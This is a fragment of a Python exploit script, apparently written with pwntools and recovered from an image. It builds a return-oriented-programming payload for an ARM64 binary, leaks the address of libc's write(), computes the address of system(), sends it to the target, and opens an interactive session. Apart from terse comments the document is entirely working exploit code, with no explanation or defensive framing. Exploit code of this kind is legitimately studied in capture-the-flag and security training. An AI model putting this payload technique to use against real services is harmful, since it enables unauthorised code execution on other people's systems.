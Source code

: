 ```python
payload += p64(0x0000000000400AB0)  # for ret to __libc stage 2
# padding
payload += p64(0)
# x20
payload += p64(1)  # to compare with x19, mark write() finished
# x21
payload += p64(addr_magic - 0x10)
# x22
payload += p64(1)
# x23
payload += p64(0x0000000000411038)
# x24
payload += p64(8)


# x29
payload += p64(addr_magic - 0x10)
# x30
payload += p64(0x0000000000400AB0) # for ret to __libc stage 2
# padding
payload += p64(0)
# x20
payload += p64(1) # to compare with x19, mark read() finished
# x21
payload += p64(addr_magic - 0x8)
# x22
payload += p64(0)
# x23
payload += p64(addr_magic + 0x8)
# x24
payload += p64(8)


# x29
payload += p64(addr_magic - 0x10)
# x30
payload += p64(0x0000000000400AB0) # for ret to __libc stage 2
# padding
payload += p64(0)
# x20
payload += p64(1) # to compare with x19, mark read() finished
# x21
payload += p64(addr_magic + 0x8)
# x22
payload += p64(0x0000000000411080)
# x23
payload += p64(0)
# x24
payload += p64(0)


conn.send(payload)
conn.recv()
addr_libc_write = conn.recv(numb=8)

print("addr_libc_write: {}".format(addr_libc_write[::-1].hex()))
addr_libc_system = p64(
    offset + int.from_bytes(addr_libc_write, byteorder='little'))
print("addr_libc_system: {}".format(addr_libc_system[::-1].hex()))

conn.send(addr_libc_system)

conn.interactive()
```